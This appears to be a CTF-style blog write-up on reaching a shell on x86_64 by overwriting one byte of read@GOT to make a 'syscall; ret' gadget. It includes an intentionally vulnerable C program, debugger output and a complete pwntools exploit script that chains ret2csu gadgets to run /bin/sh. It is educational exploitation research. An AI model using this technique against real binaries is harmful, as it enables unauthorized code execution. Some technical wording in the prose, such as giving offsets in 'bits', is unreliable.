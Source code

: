 ```yaml
---
title: "From read@GLIBC to RCE in X86_64"
date: 2019-11-29T17:03:16+01:00
draft: false
index: true
tags: ["linux", "exploit", "rce", "buffer-overflow"]
categories: ["exploit", "security"]
comments: true
highlight: true
---
```


While playing some pwn in **HackZone** CTF, i figured out a new technique for Arbitrary Code Execution only by using the `read` function from libc.

<!--more-->
### TL;DR
It's almost impossible for a security research to exploit a binary only with Arbitrary Write, because in real world you need to leak some data (Specially when ASLR is enabled) and then jump to the right place. However i got an idea of how to get RCE using only read@GLIBC (`Arbitrary Write`) on a X86_64 platform.

### PWN.c
```c
// gcc -fno-stack-protector -no-pie pwn.c -o pwn
#include <stdio.h>
#include <stdlib.h>

int main(){
    char buf[100];
    read(0, &buf, 500);
}
```
Following this code, we will be compiling it and try to exploit it using our method!

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

As we can see the GOT table is writable, so this will help us to overwrite the read@GOT but the problem is what kind of data we'll using it to overwrite the read@GOT since we don't have the ability to leak address and ASLR is enable!

### Read@GOT
```shell
root@kali:~# objdump -R ./pwn

./pwn:     file format elf64-x86-64

DYNAMIC RELOCATION RECORDS
OFFSET           TYPE              VALUE 
0000000000403ff0 R_X86_64_GLOB_DAT  __libc_start_main@GLIBC_2.2.5
0000000000403ff8 R_X86_64_GLOB_DAT  __gmon_start__
0000000000404018 R_X86_64_JUMP_SLOT  read@GLIBC_2.2.5

```
```shell
gdb-peda$ x/g 0x404018
0x404018 <read@got.plt>:        0x00007ffff7ee2850
```
In our example the address `0x404018` in the GOT table points to the address of `read@GLIBC_2.2.5` in libc.

### Read@GLIBC

```assembly
gdb-peda$ disassemble read 
Dump of assembler code for function __GI___libc_read:
   0x00007ffff7ee2850 <+0>:     lea    rax,[rip+0xd3b79]
   0x00007ffff7ee2857 <+7>:     mov    eax,DWORD PTR [rax]
   0x00007ffff7ee2859 <+9>:     test   eax,eax
   0x00007ffff7ee285b <+11>:    jne    0x7ffff7ee2870 <__GI___libc_read+32>
   0x00007ffff7ee285d <+13>:    xor    eax,eax
   0x00007ffff7ee285f <+15>:    syscall 
   0x00007ffff7ee2861 <+17>:    cmp    rax,0xfffffffffffff000
   0x00007ffff7ee2867 <+23>:    ja     0x7ffff7ee28c0 <__GI___libc_read+112>
   0x00007ffff7ee2869 <+25>:    ret    
   0x00007ffff7ee286a <+26>:    nop    WORD PTR [rax+rax*1+0x0]
   0x00007ffff7ee2870 <+32>:    sub    rsp,0x28
   0x00007ffff7ee2874 <+36>:    mov    QWORD PTR [rsp+0x18],rdx
   0x00007ffff7ee2879 <+41>:    mov    QWORD PTR [rsp+0x10],rsi
   0x00007ffff7ee287e <+46>:    mov    DWORD PTR [rsp+0x8],edi
   0x00007ffff7ee2882 <+50>:    call   0x7ffff7efe570
   ...

```
Following the assembler code for function **read@GLIBC**, we can see that the first `syscall` instruction is only 15bit from the first instruction followed by `ret` which is only 45bit from the first instruction.

> One byte overwrite in the read@GOT can create a gadget of `syscall; ret`

#### Summarize

<img src="/img/from-read-glibc-to-rce-x86_64/read_got.png" alt="read@GLIBC Memory Map" class="img-fluid img-thumbnail"/>

### PWN

To summarize all the steps to exploit the binary, what we need to do is :

1. We need to use `ret2csu` technique in order to control the RDI, RSI and RDX.
2. Using the read function to write `/bin/sh` in the `.bss` section.
3. Overwrite the `read@GOT` with one byte `0x5f` in order for the read function to point in the `syscall` instruction.
4. Because we overwrite with `one` byte, that's mean the `RAX` is equal to `1`.
5. The RAX register is equal to 1 and the read function is pointing in syscall instruction. That's mean we have a `write` function.
6. Using the write function, we will read `0x3b` size of arbitrary data from (.text or .bss) in order for the RAX to be equal to 0x3b (`sys_execve`).
7. Now we have `RAX` equal to `0x3b` and we have `/bin/sh` in the memory, all what we need to do is to fire a `syscall`.
8. We got a shell.

### Exploit
```python
from pwn import *

p = process('./pwn')

read_got    = p64(0x404018) # read@got
read_plt    = p64(0x401030) # read@plt
str_bin_sh  = p64(0x404100) # 0x00404000 (bss) + 0x100
text        = p64(0x401000) # .text section
csu_init1   = p64(0x4011a2) # pop rbx
csu_init2   = p64(0x401188) # mov rsi, r13
csu_fini    = p64(0x4011b0) # ret
sys_execve  = p64(0x3b)
null        = p64(0x0)
one         = p64(0x1)
zero        = p64(0x0)
stdin       = p64(0x0)
stdout      = p64(0x1)
junk        = 'JUNKJUNK'
bin_sh      = '/bin/sh\x00'
len_bin_sh  = p64(len(bin_sh))

def ret2csu(func_GOT, rdi, rsi, rdx):
    ret_csu  = zero      # pop rbx
    ret_csu += one       # pop rbp
    ret_csu += rdi       # pop r12
    ret_csu += rsi       # pop r13
    ret_csu += rdx  # pop r14
    ret_csu += func_GOT  # pop r15
    ret_csu += csu_init2 # ret
    ret_csu += junk      # add rsp,0x8
    return ret_csu

crash = 'A' * 120

# Write '/bin/sh' in str_bin_sh
rop  = csu_init1
rop += ret2csu(read_got, stdin, str_bin_sh, len_bin_sh)

# Overwrite read@got with one_byte
rop += ret2csu(read_got, stdin, read_got, one)

# Read arbitrary data in order to gt 0x3b in RAX
rop += ret2csu(read_got, stdout, text, sys_execve)

# sys_execve('/bin/sh')
rop += ret2csu(read_got, str_bin_sh, null, null)

payload = crash + rop

exploit = payload.ljust(500, 'A')
p.send(exploit)
p.send(bin_sh)
p.send('\x5f')
garbage = p.recv()
p.interactive()

```
#### Download
* [read_glibc.zip](/files/from-read-glibc-to-rce-x86_64/read_glibc.zip)
</br>
